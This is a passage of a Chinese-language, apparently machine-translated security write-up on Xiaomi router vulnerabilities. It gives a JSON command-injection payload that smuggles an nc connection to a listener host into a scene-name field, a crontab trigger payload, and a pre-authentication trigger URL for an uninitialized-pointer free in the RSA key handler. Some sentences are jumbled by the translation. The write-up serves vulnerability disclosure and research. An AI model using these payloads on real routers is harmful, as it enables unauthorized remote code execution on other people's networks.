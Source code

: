run_cmd_arg我们可以使用一个简单的技巧 ( )轻松转义引号$(shell command)并注入scene_name.为了 PoC 这个漏洞，我们可以使用这两个有效负载（同样，与之前的类似）：

第一个有效载荷

```
{    "command":"scene_setting",    // Command Injection - making an exterior connection    "name":"'$(nc 192.168.31.98 4242)'",    [...] // same as before}
```

第二个有效载荷

```
{    "command":"scene_start_by_crontab",    "time":"2:2",    "week":0}
```

这样，我们就会收到与侦听器的连接并确认 RCE：

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/6-1711605273.png)

**预授权**

现在我们知道，授权后 LAN 受到多个错误的影响，这些错误使我们能够在小米路由器上获取 root shell：为此，我们需要路由器 Web 界面的管理员密码来检索身份验证令牌。当然，如果我们可以绕过这一步，那就更有趣了：我们的下一阶段是研究预授权 LAN 接口，以便任何连接到 WiFi 的用户都可以利用路由器。

该 LAN 预认证表面上的漏洞是在lua_rsa_pubkey_encrypt()小米/usr/lib/lua/librsa.so库的方法中发现的。使用端点的名称，我们猜测此功能简化了通过链接共享 WiFi 密码的过程。此函数在通过路由器接口的 API 端点进行身份验证之前公开：http://192.168.31.1/cgi-bin/luci/api/misystem/get_wifi_pwd_url?rsa_pubkey=。

**端点/api/misystem/get_wifi_pwd_url- pk_free()**

首先，当给出格式错误的 RSA 公钥时，我们可以在(called by )中的未初始化指针上触发对pk_free()from的调用。正如我们将看到的，这个错误理论上可能会通过仔细组织堆栈而导致远程代码执行。libembedtls.sopublic_encrypt_keybuf()lua_rsa_pubkey_encrypt()

```
int32_t public_encrypt_keybuf(char* url, int32_t url_len, int32_t* arg3, int32_t* arg4, char* controlled_key, int32_t key_len){    int32_t ret_code;    void* pk_ctx;    int32_t b64_needed_len = 0;    base64_decode(0, &b64_needed_len, controlled_key, key_len);    if (sys_log_enable != 0)    {        syslog(6, " rsa crypto  base64_decode need …", b64_needed_len);    }    char* b64 = calloc((b64_needed_len + 1), 1);    int32_t err_code = base64_decode(b64, &b64_needed_len, controlled_key, key_len);    if (err_code == 0)    {       [..]    }    else    {        if (sys_log_enable != 0)        {            syslog(6, " rsa crypto  base64_decode faile…", err_code);        }        ret_code = 101;        // This is freed but was never initialized if(err_code != 0)         pk_free(&pk_ctx);        free(b64);    }    return ret_code;}
```

要触发该pk_free()错误，我们只需发送包含非 Base64 字符的格式错误的 RSA 公钥。例如：http://192.168.31.1/cgi-bin/luci/api/misystem/get_wifi_pwd_url?rsa_pubkey=%01。

在 GDB 中，我们可以看到未映射的地址在以下位置被取消引用pk_free()：

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/5-1711605274.png)为了更多地了解这个漏洞，让我们看一下我们可以在网上找到的该pk_free()函数的源代码： libmbedtls

```
/* * Free (the components of) a pk_context */void pk_free( pk_context *ctx ){    if( ctx == NULL || ctx->pk_info == NULL )        return;    ctx->pk_info->ctx_free_func( ctx->pk_ctx );    polarssl_zeroize( ctx, sizeof( pk_context ) );}
```
